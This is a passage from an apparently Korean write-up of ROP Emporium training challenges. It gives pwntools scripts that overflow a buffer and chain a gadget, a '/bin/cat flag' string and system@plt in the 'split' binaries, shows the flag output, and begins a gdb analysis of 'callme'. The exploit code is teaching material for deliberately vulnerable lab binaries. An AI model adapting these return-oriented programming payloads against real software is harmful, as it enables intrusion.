 exploit.py:
```python
from pwn import *

pr = 0x400883
bincat = 0x601060
systemplt = 0x4005e0

pl = 'a'*0x28 + p64(pr) + p64(bincat) + p64(systemplt)

p = process('./split')
p.recvuntil('> ')
p.sendline(pl)
p.interactive()
```
exploit32.py:
```python
from pwn import *

bincat = 0x804a030
systemplt = 0x8048430

pl = 'a'*0x2c + p32(systemplt) + p32(0) + p32(bincat)

p = process('./split32')
p.recvuntil('> ')
p.sendline(pl)
p.interactive()
```
출력:
```bash
junheah@ubuntu:~/ropemp/split$ python exp.py
[+] Starting local process './split': pid 8233
[*] Switching to interactive mode
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

## 2. callme
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
main함수에서 pwnme를 호출해준다.
```nasm
Dump of assembler code for function pwnme:
   0x0000000000401a05 <+0>:     push   rbp
   0x0000000000401a06 <+1>:     mov    rbp,rsp
   0x0000000000401a09 <+4>:     sub    rsp,0x20
   0x0000000000401a0d <+8>:     lea    rax,[rbp-0x20]
   0x0000000000401a11 <+12>:    mov    edx,0x20
   0x0000000000401a16 <+17>:    mov    esi,0x0
   0x0000000000401a1b <+22>:    mov    rdi,rax
   0x0000000000401a1e <+25>:    call   0x401820 <memset@plt>
   0x0000000000401a23 <+30>:    mov    edi,0x401b70
   0x0000000000401a28 <+35>:    call   0x4017f0 <puts@plt>
   0x0000000000401a2d <+40>:    mov    edi,0x401b92
   0x0000000000401a32 <+45>:    mov    eax,0x0
   0x0000000000401a37 <+50>:    call   0x401800 <printf@plt>
   0x0000000000401a3c <+55>:    mov    rdx,QWORD PTR [rip+0x20064d]        # 0x602090 <stdin@@GLIBC_2.2.5>
```